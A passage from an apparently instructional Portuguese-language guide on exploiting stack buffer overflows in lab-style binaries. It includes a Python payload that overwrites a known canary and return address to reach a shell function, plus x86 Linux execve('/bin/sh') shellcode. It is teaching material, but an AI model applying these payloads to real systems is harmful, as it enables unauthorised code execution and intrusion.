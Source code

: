 1. **Preencher o Buffer**: 
  - A variável `char buff[0x30]` tem 48 bytes. Então, você precisa enviar 48 bytes para preencher o buffer até alcançar o canário.

2. **Sobrescrever o Canário**:
  - Após os 48 bytes do buffer, você deve colocar o valor correto do canário para não ser detectado.

3. **Sobrescrever o Endereço de Retorno**:
  - Após o canário, você deve colocar os bytes necessários para pular a base pointer (`saved EBP`) e então sobrescrever o endereço de retorno.
  - Como você conhece o endereço da função que acessa a shell, coloque o endereço dessa função como o novo endereço de retorno.

#### 4. **Estrutura do Payload**:

Aqui está como seria a estrutura do payload:

```
[48 bytes de dados arbitrários] + [valor do canário] + [dados para pular o saved EBP] + [endereço da função shell]
```

# Exemplo de como construir o payload
```python
payload = b"A" * 48                # Preenche o buffer com 48 bytes arbitrários
payload += b"\xef\xbe\xad\xde"     # Valor do canário em little-endian (0xdeadbeef)
payload += b"B" * 4                # Pula o saved EBP
payload += b"\x84\x84\x04\x08"     # Endereço da função shell em little-endian (0x08048484)

# Exibir o payload
print(payload)
```

### Como fazer e utilizar um Shellcode em que você tem o endereço da variável char buff[64] (NX: Off, Canary: Off, ASLR: Off)
Quando o NX, Canary e ASLR estão desativados, você pode explorar a vulnerabilidade de Buffer Overflow de maneira mais direta, injetando um shellcode diretamente na pilha para abrir um terminal. Aqui está um exemplo de como você pode fazer isso em Python.

#### 1. **Shellcode**:
O shellcode é um pequeno pedaço de código que será executado. Neste caso, usaremos um shellcode que abre um terminal (`/bin/sh`). Um exemplo de shellcode para sistemas Linux é:

```python
shellcode = (
    b"\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e"
    b"\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80"
)
```

Esse shellcode corresponde a um código que invoca `execve("/bin/sh", NULL, NULL)`.

#### 2. **Buffer Overflow Exploit**:
